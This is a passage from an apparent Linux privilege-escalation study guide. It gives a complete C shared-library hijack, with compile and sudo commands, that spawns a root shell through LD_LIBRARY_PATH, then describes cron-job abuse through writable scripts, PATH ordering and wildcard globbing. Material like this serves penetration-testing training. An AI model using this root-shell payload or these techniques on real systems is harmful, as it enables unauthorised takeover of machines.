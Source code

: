 Hijacking shared objects using this method is hit or miss. Choose one from the list and try it.
Create a file (library_path.c) with the following:
```C
/*
	Compile:
	gcc -o libcrypt.so.1 -shared -fPIC library_path.c
*/

#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
	unsetenv("LD_LIBRARY_PATH");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

Run apache2 using sudo, while setting the LD_LIBRARY_PATH environnment variable to the current path (where we compiled library_path.c):
```bash
sudo LD_LIBRARY_PATH=. apache2
```

## Cron Jobs
Programs or scripts which users can schedule to run at specific times or intervals. Cron jobs run with the security level of the user who owns them. By default, cron jobs are run using the /bin/sh shell, with limited environment variables.

Cron table files (crontabs) store the configuration for cron jobs. User crontabs are usually located in **/var/spool/cron** or **/var/spool/cron/crontabs**. The system-wide crontab is located at **/etc/crontab**.

### File Permissions
Misconfiguration of file permissions associated with cron jobs can lead to easy privilege escalation. If we can write to a program or script which gets run as part of a cron job, we can replace it with our own code.

### PATH Environment Variable
The crontab **PATH** environment variable is by default set to **/usr/bin:/bin**
The **PATH** variable can be overwritten in the crontab file. If a cron job program/script does not use an absolute path, and one of the **PATH** directories is writable by our user, we may be able to create a program/script with the same name as the cron job.

### Wild Cards
When a wildcard character (\*) is provided to a command as part of an argument, the shell will first perform *filename expansion* (also known as globbing) on the wildcard. This process replaces the wildcard with a space-separated list of the file and directory names in the current directory. As easy way to see this in action is to run the following command from your home directory:
```bash
echo *
```

